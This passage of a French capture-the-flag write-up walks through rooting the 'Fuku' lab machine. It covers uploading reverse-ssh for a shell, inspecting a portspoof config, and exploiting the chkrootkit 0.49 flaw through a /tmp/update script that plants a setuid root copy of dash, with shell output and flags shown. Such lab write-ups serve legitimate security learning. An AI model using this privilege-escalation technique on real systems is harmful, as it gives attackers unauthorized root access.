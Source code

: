 ```bash
cp /usr/bin/wge* /tmp/dv
```

Une fois reverse-ssh uploadé puis exécuté je suis tranquille car les communications sont chiffrées.

Je trouve un premier flag :

```shellsession
www-data@Fuku:/var/www/html$ cat flag.txt 
Did you find this flag by guessing? Or possibly by looking in the robots.txt file?
Maybe you found it after getting a shell, by using a command like "find / -name flag.txt" ?
Random keyboard smash: J7&fVbh2kTy[JgS"98$vF4#;>mGcT
```

Je vois deux processus intéressants :

```
daemon    1384  0.0  2.0 105516 21360 ?        Ssl  08:01   0:00 /usr/local/bin/portspoof -c /etc/portspoof.conf -D
root      1408  0.0  0.3   5732  3144 ?        S    08:01   0:00 /bin/bash /root/chkrootkit-0.49/run_chkrootkit
```

Le premier est le service qui donne la réponse par défaut. Le fichier de configuration est comme ceci :

```
1-65535 "HTTP/1\.0 200 OK\r\nServer: Apache/(2\.4\.\d) \(Ubuntu\)\r\n\r\n<html>\r\n<body>\r\nFUKU!</body>\r\n</html>"
```

Quand on liste les ports en écoute on s'apperçoit que seul le port 444 est utilisé par `portspoof`. Toutefois je n'ai pas vui de règles de pare-feu donc le fonctionnement reste un mystère.

Le second process m'intéresse car je sais que chkrootkit a été touché par une vulnérabilité d'escalade de privilèges ([Chkrootkit 0.49 - Local Privilege Escalation - Linux local Exploit](https://www.exploit-db.com/exploits/33899)) que j'ai déjà utilise pour [le CTF Froggy de Wizard Labs](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Froggy%20de%20Wizard%20Labs.md).

Ici nous n'avons pas accès en lecture au script `/root/chkrootkit-0.49/run_chkrootkit` donc on suppose qu'il faut créer un script au chemin par défaut `/tmp/update`.

Voici les commandes que j'ai placé :

```bash
#!/bin/bash
cp /bin/dash /tmp/devloop_was_here
chmod 4755 /tmp/devloop_was_here
```

Et après quelques minutes :

```shellsession
www-data@Fuku:/var/www/html$ ls -al /tmp/devloop_was_here 
-rwsr-xr-x 1 root root 110K Jan  4 08:31 /tmp/devloop_was_here
www-data@Fuku:/var/www/html$ /tmp/devloop_was_here
# cd /root
# ls
19700101      chkrootkit-0.49  flag.txt  g++-4.9  gcc-4.9  gcc-ar-4.9  gcc-nm-4.9  gcc-ranlib-4.9  ifconfig  mlocate    python     uname  whoami
change_ip.sh  cpp-4.9          fuku      gcc      gcc-ar   gcc-nm      gcc-ranlib  id              locate    portspoof  python2.7  which
# cat flag.txt
Yep, this is a flag. It's worth over 9000 Internet points!
Random keyboard smash: lkhI6u%RdFEtDjJKIuuiI7i&*iuGf)8$d4gfh%4
```
